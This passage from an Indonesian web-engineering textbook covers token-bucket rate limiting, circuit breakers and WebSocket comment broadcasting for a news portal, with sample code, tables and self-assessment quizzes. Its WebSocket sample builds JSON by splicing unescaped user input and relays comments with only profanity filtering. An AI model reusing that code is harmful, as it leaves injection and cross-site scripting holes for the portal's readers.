   - A. Menegosiasikan protokol aplikasi (seperti HTTP/1.1, HTTP/2, atau HTTP/3) antara peramban dan server selama jabat tangan TLS berlangsung
   - B. Mengunci keyboard komputer pengguna
   - C. Mengubah warna ikon peramban
   - D. Memeriksa kapasitas memori flash drive

8. Berapa durasi interval waktu yang diatur untuk pemeriksaan kesehatan upstream API pada kode implementasi di atas?
   - A. 1 milidetik
   - B. 3 detik
   - C. 1 jam
   - D. 24 jam

9. Apa yang terjadi jika permintaan dengan URL `/ws/live/comments` masuk ke gerbang API Nusantara?
   - A. Permintaan akan ditolak dengan galat 403 Forbidden
   - B. Gateway mengenali rute awalan `/ws/*` dan meneruskan koneksi serta mengizinkan peningkatan protokol (*Protocol Upgrade*) ke WebSocket pada port 6000
   - C. Gateway mematikan koneksi internet pengguna
   - D. Permintaan dialihkan ke halaman pencarian Google

10. Mengapa pemisahan beban antara klaster Web SSR dan klaster REST API sangat dianjurkan pada portal berita berskala nasional?
    - A. Memastikan lonjakan konsumsi pembaca umum pada halaman statis/SSR tidak membebani transaksi pembaruan data editorial pada API inti
    - B. Menghilangkan kebutuhan sistem basis data
    - C. Mengurangi kapasitas RAM server hingga nol byte
    - D. Membatasi jurnalis agar tidak bisa menulis berita di akhir pekan

---

# BAB 19: RATE LIMITING TOKEN BUCKET & MITIGASI DDOS

Bab ini mengupas tuntas pertahanan tepi (*edge defense*) portal berita NusantaraNews: penerapan algoritma pembatasan laju (*Rate Limiting*) berbasis Token Bucket dan Sliding Window, mitigasi serangan Denial of Service (DoS/DDoS), perlindungan scraper konten ilegal, dan isolasi lalu lintas menggunakan protokol terdistribusi WidyaBase KV.

---

## 19.1 Teori Rate Limiting & Arsitektur Token Bucket

Lonjakan lalu lintas tak wajar pada portal berita dapat bersumber dari serangan distributed botnet, perayap web liar (*malicious web scrapers*) yang menyedot artikel, atau lonjakan pemilih jajak pendapat. Algoritma **Token Bucket** menyediakan keseimbangan sempurna antara pembatasan kapasitas rata-rata dan toleransi lonjakan sesaat (*burst capacity*).



Secara matematis, jika ember memiliki kapasitas maksimum $C$ dan tingkat pengisian $r$ token/detik, maka durasi lonjakan maksimum $T_{burst}$ yang dapat dilayani adalah:
$$T_{burst} = \frac{C}{M - r}$$
di mana $M$ adalah laju kedatangan permintaan maksimum dari klien.

---

## 19.2 Implementasi Middleware Rate Limiter di WidyaWeb

Berikut adalah implementasi middleware rate limiter berbasis alamat IP dan kunci API menggunakan penyimpanan status atomik terdistribusi:

```widya
// Modul Rate Limiter Terdistribusi NusantaraNews
gunakan widya::web::middleware::{Middleware, KonteksMiddleware, HasilMiddleware};
gunakan widya::web::http::{Respon, StatusHTTP};
gunakan widya::base::kv::{KlienKV};

rekod AturanLimit {
    kapasitas_maksimal: Bulat,
    laju_isi_per_detik: Bulat,
    jendela_waktu_detik: Bulat
}

fungsi MiddlewareRateLimiter(kv: KlienKV) -> Middleware {
    kembalikan fungsi(ctx: KonteksMiddleware, berikutnya: FungsiLanjut) -> Respon {
        tetapan ip_klien = ctx.permintaan().alamat_ip_klien();
        tetapan api_key = ctx.permintaan().tajuk("X-Api-Key");
        
        // 1. Tentukan Identitas & Kebijakan Kuota
        tetapan (kunci_identitas, aturan) = jika api_key.ada() {
            ("ratelimit:key:" + api_key.ambil(), AturanLimit { kapasitas_maksimal: 500, laju_isi_per_detik: 50, jendela_waktu_detik: 1 })
        } jika_tidak {
            ("ratelimit:ip:" + ip_klien, AturanLimit { kapasitas_maksimal: 30, laju_isi_per_detik: 5, jendela_waktu_detik: 1 })
        };

        // 2. Eksekusi Script Token Bucket Atomik di WidyaBase KV
        tetapan sekarang_detik = ambil_waktu_unix_detik();
        tetapan hasil_evaluasi = kv.evaluasi_token_bucket(
            kunci_identitas,
            aturan.kapasitas_maksimal,
            aturan.laju_isi_per_detik,
            sekarang_detik
        )?;

        // 3. Pasang Tajuk Standar IETF RateLimit
        tetapan sisa_token = hasil_evaluasi.sisa_token;
        tetapan waktu_reset = hasil_evaluasi.detik_hingga_reset;

        jika !hasil_evaluasi.apakah_diizinkan {
            kembalikan Respon::status(StatusHTTP::TooManyRequests) // 429
                .atur_tajuk("Retry-After", waktu_reset.ke_teks())
                .atur_tajuk("X-RateLimit-Limit", aturan.kapasitas_maksimal.ke_teks())
                .atur_tajuk("X-RateLimit-Remaining", "0")
                .atur_tajuk("X-RateLimit-Reset", waktu_reset.ke_teks())
                .atur_badan_json({
                    "error": "Terlalu Banyak Permintaan",
                    "pesan": "Batas kuota akses Anda terlampaui. Silakan coba kembali dalam " + waktu_reset.ke_teks() + " detik."
                })
                .bangun();
        }

        // Lanjutkan permintaan dengan menyematkan sisa kuota
        tetapan mutabel respon = berikutnya(ctx);
        respon.atur_tajuk("X-RateLimit-Limit", aturan.kapasitas_maksimal.ke_teks());
        respon.atur_tajuk("X-RateLimit-Remaining", sisa_token.ke_teks());
        respon.atur_tajuk("X-RateLimit-Reset", waktu_reset.ke_teks());
        kembalikan respon;
    };
}
```

---

## 19.3 Analisis Perbandingan Algoritma Rate Limiting

Pemilihan algoritma pembatasan laju harus mempertimbangkan efisiensi memori dan keadilan alokasi trafik.

| Algoritma | Penggunaan Memori | Keakuratan Batas Tepi | Toleransi Lonjakan (*Burst*) |
| :--- | :--- | :--- | :--- |
| **Fixed Window Counter** | Sangat Rendah ($O(1)$) | Buruk (Lonjakan $2\times$ di batas jendela) | Tidak Ada |
| **Sliding Window Log** | Sangat Tinggi ($O(N)$ stempel waktu) | Sangat Presisi | Rendah |
| **Sliding Window Counter** | Rendah (Kombinasi 2 counter) | Sangat Baik (Aproksimasi 99%) | Terbatas |
| **Token Bucket (WidyaWeb)** | Sangat Rendah (2 bilangan float/klien) | Sempurna | Sangat Baik & Terkendali |

---

## 19.4 Latihan Praktik & Studi Kasus

1. **Implementasi White-listing untuk Bot Mesin Pencari Terverifikasi**: Kembangkan aturan pengecualian rate limit untuk bot resmi mesin pencari (seperti Googlebot dan Bingbot) melalui verifikasi pencocokan DNS terbalik (*Reverse DNS lookup*).
2. **Penalti Eskalasi Waktu Blokir (Tarpitting / Exponential Backoff)**: Rancang mekanisme di mana klien yang melanggar batas rate limit lebih dari 5 kali berturut-turut akan diblokir selama durasi eksponensial (1 menit, 5 menit, 1 jam).
3. **Pemberian Kuota Berbeda Berdasarkan Rubrik Berita**: Buat pemisahan batas kuota di mana endpoint pencarian teks dan komentar memiliki batas yang lebih ketat dibandingkan endpoint membaca artikel umum.

---

## 19.5 Evaluasi Mandiri Pilihan Ganda

1. Apa kode status HTTP resmi yang dikembalikan oleh peladen ketika klien melebihi kuota pembatasan laju (*rate limit*)?
   - A. 200 OK
   - B. 401 Unauthorized
   - C. 429 Too Many Requests
   - D. 503 Service Unavailable

2. Tajuk HTTP standar apa yang memberi petunjuk kepada klien berapa detik mereka harus menunggu sebelum mencoba kembali permintaannya?
   - A. `Retry-After`
   - B. `Accept-Language`
   - C. `Content-Length`
   - D. `User-Agent`

3. Mengapa algoritma *Token Bucket* menjadi standar industri dalam perancangan API gateway modern?
   - A. Karena dapat mentoleransi lonjakan lalu lintas sesaat (*bursting*) secara mulus sambil menjaga batas laju rata-rata tetap aman
   - B. Karena menghapus database pengguna secara otomatis
   - C. Karena hanya bisa ditulis dalam bahasa C++
   - D. Karena tidak memerlukan sambungan listrik

4. Pada kode implementasi di atas, berapa kapasitas ember maksimal yang dialokasikan untuk pengguna publik tanpa API Key?
   - A. 1 token
   - B. 30 token
   - C. 500 token
   - D. Tak terbatas

5. Kelemahan fatal apa yang terjadi jika kita menggunakan algoritma *Fixed Window Counter* klasik?
   - A. Server akan langsung mati jika tanggal berganti
   - B. Memungkinkan lalu lintas menembus batas hingga dua kali lipat ($2\times$) tepat di antara peralihan batas jendela waktu
   - C. Tidak bisa mencatat alamat IP
   - D. Mengharuskan penggunaan memori sebesar 10 Gigabyte per pengguna

6. Mengapa status rate limit harus disimpan dalam basis data terdistribusi (seperti WidyaBase KV) dan bukan sekadar variabel lokal memori di satu server gateway?
   - A. Agar seluruh instans peladen gateway di dalam klaster memiliki pandangan kuota yang konsisten dan tersinkronisasi terhadap klien yang sama
   - B. Agar data rate limit dapat dicetak di koran
   - C. Mempercepat proses kompilasi kode Rust
   - D. Menghindari pembacaan cookie oleh peramban

7. Apa tujuan utama dari penyematan tajuk respons `X-RateLimit-Remaining`?
   - A. Menginformasikan kepada klien sisa kuota permintaan yang masih dapat mereka lakukan pada jendela waktu aktif
   - B. Menghitung jumlah kata dalam artikel berita
   - C. Menutup koneksi TCP seketika
   - D. Mengubah alamat IP server

8. Apa bahaya utama jika endpoint pengiriman komentar tidak dilindungi oleh middleware pembatasan laju?
   - A. Komentar akan terhapus otomatis setelah 1 menit
   - B. Rentan terhadap serangan spamming bot otomatis yang membanjiri basis data dan menjatuhkan server (*Resource Exhaustion*)
   - C. Gambar profil pembaca akan berubah menjadi warna hitam
   - D. Server akan dipaksa mengunduh pembaruan Windows

9. Dalam rumus durasi lonjakan $T_{burst} = C / (M - r)$, variabel $C$ merepresentasikan apa?
   - A. Kapasitas maksimum ember (*bucket capacity*)
   - B. Jumlah inti CPU server
   - C. Kecepatan kipas pendingin komputer
   - D. Biaya tagihan cloud bulanan

10. Mengapa pengguna dengan API Key terautentikasi diberikan kuota kapasitas maksimal yang jauh lebih tinggi (500 token)?
    - A. Karena mereka adalah mitra atau aplikasi seluler resmi yang identitasnya telah terverifikasi dan dapat dilacak
    - B. Karena mereka membayar denda kepada pengembang
    - C. Kompilator memberikan perlakuan khusus
    - D. Menghilangkan kewajiban membaca berita

---

# BAB 20: CIRCUIT BREAKER & POLA RESILIENSI SISTEM

Bab ini mendalami rekayasa keandalan sistem (*reliability engineering*) pada portal berita NusantaraNews: implementasi pola *Circuit Breaker* tiga status (Tertutup, Terbuka, Setengah Terbuka), *Retry Policy* dengan *Exponential Backoff* dan *Jitter*, mekanisme isolasi kegagalan (*Bulkheading*), serta penyajian konten degradasi anggun (*graceful degradation / fallback*).

---

## 20.1 Teori Resiliensi & Pola Mesin Status Circuit Breaker

Ketika layanan backend dependensi (misal: mesin rekomendasi artikel berbasis AI atau gateway pembayaran langganan) mengalami kelambatan ekstrem (*hanging*) atau kegagalan berulang, kegagalan tersebut dapat menjalar ke seluruh sistem (*cascading failure*) dan menghabiskan seluruh thread pekerja peladen web. Pola **Circuit Breaker** bertindak sebagai sekering pengaman otomatis yang memutus koneksi sementara ke layanan yang bermasalah.



---

## 20.2 Implementasi Circuit Breaker di WidyaWeb

Berikut adalah implementasi pustaka resiliensi `CircuitBreaker` yang melindungi pemanggilan layanan rekomendasi AI eksternal:

```widya
// Modul Resiliensi NusantaraNews
gunakan widya::web::resiliensi::{StatusCircuit, OpsiCircuitBreaker, HasilResiliensi};
gunakan widya::koleksi::{Senarai};

rekod KonfigurasiResiliensi {
    ambang_kegagalan_persen: Desimal,
    minimal_permintaan_sampel: Bulat,
    durasi_tidur_ms: Bulat,
    timeout_eksekusi_ms: Bulat
}

struktur CircuitBreakerBerita {
    status: StatusCircuit,
    total_percobaan: Bulat,
    total_gagal: Bulat,
    waktu_buka_terakhir_ms: Bulat,
    cfg: KonfigurasiResiliensi
}

implementasi CircuitBreakerBerita {
    fungsi baru(cfg: KonfigurasiResiliensi) -> CircuitBreakerBerita {
        kembalikan CircuitBreakerBerita {
            status: StatusCircuit::Tertutup,
            total_percobaan: 0,
            total_gagal: 0,
            waktu_buka_terakhir_ms: 0,
            cfg: cfg
        };
    }

    fungsi eksekusi<T>(mutabel self, aksi: Fungsi() -> Hasil<T, Galat>, fallback: Fungsi() -> T) -> T {
        tetapan waktu_sekarang = ambil_waktu_unix_ms();

        // 1. Evaluasi Transisi dari Terbuka ke Setengah Terbuka
        jika self.status == StatusCircuit::Terbuka {
            jika waktu_sekarang - self.waktu_buka_terakhir_ms >= self.cfg.durasi_tidur_ms {
                self.status = StatusCircuit::SetengahTerbuka;
                cetak_log("[CircuitBreaker] Berpindah ke status SETENGAH TERBUKA untuk pengujian pemulihan.");
            } jika_tidak {
                // Sirkuit masih terbuka, langsung eksekusi fallback instan
                kembalikan fallback();
            }
        }

        // 2. Eksekusi Aksi Utama dengan Batas Waktu (Timeout)
        self.total_percobaan = self.total_percobaan + 1;
        tetapan hasil_eksekusi = jalankan_dengan_timeout(aksi, self.cfg.timeout_eksekusi_ms);

        pilih hasil_eksekusi {
            Hasil::Sukses(data) => {
                jika self.status == StatusCircuit::SetengahTerbuka {
                    // Berhasil dalam masa uji coba, pulihkan sirkuit ke Tertutup
                    self.reset_ke_tertutup();
                    cetak_log("[CircuitBreaker] Layanan pulih. Sirkuit kembali TERTUTUP.");
                }
                kembalikan data;
            },
            Hasil::Gagal(galat) => {
                self.total_gagal = self.total_gagal + 1;
                cetak_peringatan("[CircuitBreaker] Kegagalan tercatat: " + galat.pesan());

                jika self.status == StatusCircuit::SetengahTerbuka {
                    // Gagal saat masa uji coba, segera buka kembali sirkuit
                    self.buka_sirkuit(waktu_sekarang);
                } jika_tidak {
                    // Periksa persentase kegagalan pada status Tertutup
                    jika self.total_percobaan >= self.cfg.minimal_permintaan_sampel {
                        tetapan rasio_gagal = (self.total_gagal.ke_desimal() / self.total_percobaan.ke_desimal()) * 100.0;
                        jika rasio_gagal >= self.cfg.ambang_kegagalan_persen {
                            self.buka_sirkuit(waktu_sekarang);
                        }
                    }
                }
                kembalikan fallback();
            }
        }
    }

    fungsi buka_sirkuit(mutabel self, waktu_ms: Bulat) {
        self.status = StatusCircuit::Terbuka;
        self.waktu_buka_terakhir_ms = waktu_ms;
        cetak_peringatan("[CircuitBreaker] BAHAYA: Ambang batas terlampaui. Sirkuit diputus ke TERBUKA.");
    }

    fungsi reset_ke_tertutup(mutabel self) {
        self.status = StatusCircuit::Tertutup;
        self.total_percobaan = 0;
        self.total_gagal = 0;
    }
}
```

---

## 20.3 Analisis Efektivitas Pola Resiliensi Komprehensif

Penerapan kombinasi Circuit Breaker, Timeout, dan Exponential Backoff dengan Jitter menjamin stabilitas ketersediaan layanan (*high availability*).

| Ancaman Gangguan Layanan | Perilaku Tanpa Pola Resiliensi | Perilaku dengan WidyaWeb Circuit Breaker |
| :--- | :--- | :--- |
| **Layanan AI Eksternal Hang 30 Detik** | Seluruh thread gateway habis terblokir, portal mati | Timeout 800ms memutus aksi, fallback ke berita terpopuler |
| **Database Mengalami Failover 15 Detik** | Ratusan permintaan gagal dengan galat 500 berulang | Sirkuit terbuka setelah 10 kegagalan, menyajikan artikel dari cache CDN |
| **Jaringan Flapping (Putus-Nyambung)** | Retry storm memperburuk kemacetan jaringan | Backoff eksponensial + Jitter menyebarkan beban secara acak |

---

## 20.4 Latihan Praktik & Studi Kasus

1. **Implementasi Fallback Berita Terkait Berbasis Aturan Lokal**: Rancang fungsi fallback elegan yang mengembalikan daftar 5 berita terpopuler hari ini dari cache jika layanan rekomendasi AI mengalami kegagalan.
2. **Kalkulasi Exponential Backoff dengan Jitter Acak**: Tulis algoritma penundaan percobaan ulang:
   $$t_{delay} = \min(t_{max}, t_{base} \times 2^{percobaan}) + \text{acak}(0, \text{jitter})$$
   guna mencegah fenomena thundering herd saat layanan hilir pulih.
3. **Penerapan Pola Bulkhead untuk Pemisahan Kolam Thread**: Konfigurasikan pemisahan alokasi worker thread antara penanganan artikel berita gratis (90 thread) dan pendaftaran pelanggan berbayar (30 thread terisolasi).

---

## 20.5 Evaluasi Mandiri Pilihan Ganda

1. Apa tujuan mendasar dari penerapan pola *Circuit Breaker* dalam sistem terdistribusi?
   - A. Mencegah satu kegagalan lokal pada layanan bawahan merembet menjadi kegagalan fatal pada seluruh sistem (*cascading failure*)
   - B. Mematikan listrik ruang data center saat suhu naik
   - C. Menghentikan program kompilasi secara permanen
   - D. Menghapus kode yang memiliki bug secara otomatis

2. Apa perilaku sistem ketika status Circuit Breaker berada dalam kondisi **Terbuka (Open)**?
   - A. Sistem mengizinkan ribuan permintaan masuk sekaligus ke layanan yang rusak
   - B. Sirkuit memutus aliran koneksi dan langsung mengembalikan respons cepat atau fungsi cadangan (*fallback*) tanpa membebani layanan yang sedang bermasalah
   - C. Server memformat ulang hard drive
   - D. Mematikan koneksi internet di seluruh kota

3. Kapan status sirkuit bertransisi dari status **Terbuka** menuju **Setengah Terbuka (Half-Open)**?
   - A. Setelah masa jeda istirahat (*cooldown sleep window*) terlampaui untuk memberikan kesempatan uji coba pemulihan pada layanan
   - B. Hanya saat pengguna menekan tombol F5 di browser
   - C. Tepat jam 12 malam setiap hari
   - D. Saat sistem kehabisan memori RAM

4. Apa fungsi dari strategi *Graceful Degradation* (Degradasi Anggun)?
   - A. Memastikan aplikasi tetap memberikan fungsionalitas parsial yang bermanfaat bagi pengguna (misal: menyajikan berita terpopuler statis) saat fitur canggih (seperti AI) tidak tersedia
   - B. Menghapus antarmuka CSS portal berita
   - C. Mengubah warna tulisan menjadi transparan
   - D. Memaksa pembaca menutup tab browser mereka

5. Mengapa penambahan faktor keacakan (*Jitter*) sangat krusial dalam algoritma *Exponential Backoff* saat melakukan percobaan ulang (*retry*)?
   - A. Mencegah seluruh klien yang gagal mencoba ulang secara serentak di detik yang sama persis sehingga tidak memicu gelombang badai trafik baru (*thundering herd storm*)
   - B. Menghemat baterai ponsel jurnalis
   - C. Karena angka acak diwajibkan oleh protokol TCP
   - D. Menghapus log sistem

6. Pola resiliensi apa yang mengisolasi kolam sumber daya (seperti alokasi memori atau thread) antarlayanan agar kegagalan di satu modul tidak menguras modul lainnya, mirip dengan sekat kompartemen kedap air pada lambung kapal?
   - A. Pola Bulkhead
   - B. Pola Polling
   - C. Pola Monolith
   - D. Pola Single Thread

7. Apa yang terjadi jika salah satu permintaan uji coba pada status **Setengah Terbuka** mengalami kegagalan?
   - A. Status sirkuit langsung beralih kembali ke status **Terbuka** untuk melindungi layanan
   - B. Sistem menghapus tabel database
   - C. Server melakukan instalasi ulang sistem operasi
   - D. Pengguna diblokir dari portal

8. Nilai parameter `timeout_eksekusi_ms` pada implementasi Circuit Breaker berfungsi untuk apa?
   - A. Membatasi durasi maksimal toleransi waktu tunggu panggilan layanan sebelum dianggap gagal
   - B. Mengatur waktu tidur siang pengembang
   - C. Menghitung lama artikel dibaca oleh pembaca
   - D. Membatasi masa aktif lisensi software

9. Berapa ambang persentase kegagalan minimum yang memicu pembukaan sirkuit pada konfigurasi di atas?
   - A. 0%
   - B. Sesuai nilai konfigurasi `ambang_kegagalan_persen` (misalnya 50%)
   - C. Tepat 100%
   - D. Tidak pernah terbuka

10. Mengapa pemanggilan layanan dependensi eksternal tanpa batasan *timeout* dianggap sebagai dosa besar arsitektur (*anti-pattern*)?
    - A. Karena dapat menyebabkan thread peladen tersandera menunggu tanpa batas waktu hingga seluruh sumber daya server habis dan peladen berhenti merespons permintaan lain
    - B. Karena melanggar hak cipta pengembang lain
    - C. Karena membuat ukuran berkas biner bertambah besar
    - D. Karena browser akan menolak menampilkan warna merah

---

# BAB 21: KOMUNIKASI REAL-TIME WEBSOCKETS RFC 6455 & KANAL KOMENTAR

Bab ini mengupas tuntas arsitektur komunikasi dua arah berlatensi ultra-rendah (*full-duplex low-latency communication*) menggunakan standar WebSockets RFC 6455 pada WidyaWeb untuk menghidupkan kanal diskusi interaktif pembaca, polling pemilu langsung, serta siaran teks langsung (*live blogging*) pada portal berita NusantaraNews.

---

## 21.1 Protokol WebSockets & Topologi Kanal Topik (Pub/Sub)

Berbeda dengan pola polling HTTP klasik yang membebani server dengan jabat tangan TCP berulang kali, protokol WebSocket memanfaatkan koneksi TCP persisten tunggal setelah jabat tangan peningkatan protokol (*Protocol Upgrade* `HTTP/1.1 101 Switching Protocols`). 

```mermaid
sequenceDiagram
    autonumber
    actor Pembaca as Klien Browser
    participant Gateway as Nusantara API Gateway
    participant WSBroker as WidyaWeb WebSocket Broker
    participant Topic as Saluran Berita (Topik: #artikel-8842)

    Pembaca->>Gateway: GET /ws/live HTTP/1.1 (Upgrade: websocket)
    Gateway->>WSBroker: Verifikasi Token Sesi & Upgrade Protokol
    WSBroker-->>Pembaca: HTTP/1.1 101 Switching Protocols (Koneksi Terbuka)
    Pembaca->>WSBroker: Frame Biner: JOIN #artikel-8842
    WSBroker->>Topic: Daftarkan Sesi Klien ke Saluran Topik
    Note over WSBroker,Topic: Menunggu Siaran Komentar Baru
    Topic-->>WSBroker: Broadcast Komentar Baru (ID: 9942)
    WSBroker-->>Pembaca: Push Frame Teks JSON Komentar Baru (1.2 ms)
    Pembaca->>Pembaca: Patch Komentar ke DOM Tanpa Reload
```

WidyaWeb menyematkan mesin broker multi-utas tanpa kunci (*lock-free broadcast hub*) yang mampu menyiarkan pesan ke 100.000 koneksi simultan hanya dalam beberapa milidetik dengan alokasi memori nol (*zero allocation framing*).

---

## 21.2 Implementasi WebSocket Server Kanal Berita

Berikut adalah implementasi handler peladen WebSocket untuk ruang diskusi interaktif artikel berita:

```widya
// Modul Real-Time WebSocket NusantaraNews
gunakan widya::web::websocket::{PeladenWebSocket, SesiWS, FramePesan, JenisFrame};
gunakan widya::web::broadcast::{HubSiaran, SaluranTopik};
gunakan widya::sinkronisasi::{KunciBacaTulis};

rekod PesanKomentarRealtime {
    artikel_id: Teks,
    nama_pengirim: Teks,
    isi_pesan: Teks,
    waktu_kirim: Teks
}

fungsi InisialisasiHubKomentar() -> HubSiaran {
    tetapan hub = HubSiaran::baru();

    // 1. Registrasi Handler Sambungan Klien Baru
    hub.pada_sambung(fungsi(sesi: SesiWS) {
        cetak_log("[WebSocket] Klien terhubung: " + sesi.id());
    });

    // 2. Registrasi Handler Pesan Masuk (Pub/Sub)
    hub.pada_pesan(fungsi(sesi: SesiWS, frame: FramePesan) {
        jika frame.tipe() == JenisFrame::Teks {
            tetapan payload = frame.ke_json();
            tetapan aksi = payload.ambil("aksi");

            pilih aksi {
                "gabung_topik" => {
                    tetapan artikel_id = payload.ambil("artikel_id");
                    hub.langgan_saluran("artikel:" + artikel_id, sesi);
                    sesi.kirim_teks("{\"status\": \"terhubung_ke_topik\", \"topik\": \"" + artikel_id + "\"}");
                },
                "kirim_komentar" => {
                    tetapan artikel_id = payload.ambil("artikel_id");
                    tetapan nama = sesi.atribut_sesi("nama_pengguna").nilai_atau("Pembaca Nusantara");
                    tetapan isi = payload.ambil("isi").sensor_kata_kasar();

                    // Format Pesan Siaran
                    tetapan data_siar = {
                        "tipe": "komentar_baru",
                        "artikel_id": artikel_id,
                        "nama": nama,
                        "isi": isi,
                        "waktu": ambil_waktu_iso8601()
                    };

                    // Siarkan ke seluruh pembaca yang melanggan artikel ini
                    hub.siarkan_ke_saluran("artikel:" + artikel_id, data_siar.ke_json_teks());
                },
                _ => {
                    sesi.kirim_teks("{\"error\": \"Aksi tidak dikenali\"}");
                }
            }
        }
    });

    // 3. Handler Pemutusan Sambungan
    hub.pada_putus(fungsi(sesi: SesiWS, alasan: Teks) {
        cetak_log("[WebSocket] Klien terputus: " + sesi.id() + " - Alasan: " + alasan);
        hub.lepaskan_semua_langganan(sesi);
    });

    kembalikan hub;
}
```

---

## 21.3 Analisis Efisiensi Jaringan: WebSockets vs Long Polling

Penggunaan WebSocket menurunkan konsumsi bandwidth dan latensi transmisi pesan secara dramatis pada skenario ruang obrolan padat.

| Metrik Evaluasi | HTTP Short Polling (1s) | HTTP Long Polling | WidyaWeb WebSockets (RFC 6455) |
| :--- | :--- | :--- | :--- |
| **Overhead Tajuk per Pesan** | ~800 Byte (Tajuk HTTP Berulang) | ~800 Byte per Respons | 2 – 10 Byte (Frame Masked) |
| **Latensi Pengiriman Pesan** | 500 ms – 1000 ms | 50 ms – 150 ms | 1.2 ms – 5 ms (Real-Time Murni) |
| **Jumlah Jabat Tangan TCP** | 60 koneksi baru per menit | 10 – 30 koneksi per menit | 1 Koneksi Persisten Tunggal |
| **Beban Server per 10k Pengguna** | 10.000 req/detik (Server Jebol) | Menghabiskan Worker Thread | 10.000 Socket Epoll (~25 MB RAM) |

---

## 21.4 Latihan Praktik & Studi Kasus

1. **Implementasi Detak Jantung Koneksi (Heartbeat Ping/Pong)**: Rancang mekanisme pengiriman frame kontrol `Ping` setiap 30 detik untuk mendeteksi klien yang mengalami putus koneksi diam-diam (*silent drop/zombie connection*).
2. **Kanal Siaran Skor Pertandingan Olahraga (Live Match Score)**: Bangun saluran topik `#skor-liga` yang memancarkan perubahan skor pertandingan sepak bola beserta menit gol secara instan kepada penonton.
3. **Pembatasan Laju Pesan per Pengguna (Spam Flood Protection)**: Tambahkan aturan pada tingkat sesi agar seorang pengguna maksimal hanya dapat mengirimkan 1 komentar setiap 5 detik ke saluran artikel.

---

## 21.5 Evaluasi Mandiri Pilihan Ganda

1. Standar spesifikasi IETF RFC nomor berapakah yang mengatur protokol WebSocket?
   - A. RFC 2616
   - B. RFC 6455
   - C. RFC 7540
   - D. RFC 9114

2. Kode status HTTP apa yang menandakan persetujuan server untuk melakukan peningkatan protokol (*Protocol Upgrade*) ke WebSocket?
   - A. 200 OK
   - B. 301 Moved Permanently
   - C. 101 Switching Protocols
   - D. 400 Bad Request

3. Mengapa overhead data per pesan pada protokol WebSocket jauh lebih hemat (hanya 2–10 byte) dibandingkan permintaan HTTP tradisional (~800 byte)?
   - A. Karena WebSocket tidak menyertakan tajuk-tajuk teks HTTP (seperti Cookie, User-Agent) pada setiap pertukaran bingkai data setelah koneksi terhubung
   - B. Karena WebSocket menghapus huruf vokal dari pesan
   - C. Karena WebSocket hanya mentransmisikan angka nol
   - D. Karena WebSocket dilarang membawa muatan JSON

4. Apa peran dari arsitektur *Pub/Sub (Publish/Subscribe)* pada implementasi ruang obrolan artikel berita?
   - A. Menghubungkan printer kantor berita ke internet
   - B. Memungkinkan pembaca melanggan topik artikel tertentu dan menerima pesan siaran hanya dari topik yang diikutinya tanpa membebani topik lain
   - C. Menghapus akun pembaca yang tidak aktif
   - D. Membatasi ukuran font peramban

5. Frame kontrol apa yang dikirimkan oleh server untuk memastikan klien masih hidup dan mendeteksi pemutusan koneksi internet secara sepihak?
   - A. Frame `Ping` dan respons `Pong`
   - B. Frame `GET`
   - C. Frame `POST`
   - D. Frame `HEAD`

6. Bagaimana WidyaWeb mengelola 100.000 koneksi WebSocket simultan dengan efisien tanpa kehabisan thread sistem operasi?
   - A. Menggunakan multiplexing non-blocking I/O event loop (berbasis `epoll` di Linux / `kqueue` di BSD/macOS)
   - B. Membuat satu proses sistem operasi terpisah untuk setiap pengunjung
   - C. Mengurangi kapasitas RAM server
   - D. Meminta seluruh pengunjung menutup peramban mereka

7. Frame tipe apa yang digunakan untuk mengirimkan data terstruktur JSON pada protokol WebSocket?
   - A. Frame Teks (*Text Frame*) berkode UTF-8
   - B. Frame Biner Citra Raw
   - C. Frame Suara WAV
   - D. Frame Kosong

8. Apa fungsi dari pemanggilan fungsi `hub.lepaskan_semua_langganan(sesi)` saat klien terputus?
   - A. Membersihkan referensi sesi dari seluruh daftar topik aktif guna mencegah kebocoran memori (*memory leak*)
   - B. Menghapus rekod pengguna dari tabel database
   - C. Mematikan listrik router internet
   - D. Menghapus artikel berita dari situs

9. Berapa overhead latensi pengiriman pesan siaran pada implementasi broker WidyaWeb?
   - A. Sekitar 1.2 hingga 5 milidetik
   - B. Tepat 1 menit
   - C. Setengah jam
   - D. 10 detik

10. Mengapa data masukan komentar pengguna (`payload.ambil("isi")`) tetap wajib disanitasi sebelum disiarkan ke pengguna lain?
    - A. Mencegah serangan *Stored / Reflected Cross-Site Scripting* (XSS) pada seluruh peramban pembaca yang menerima siaran komentar tersebut
    - B. Menghemat memori hard disk hingga 90%
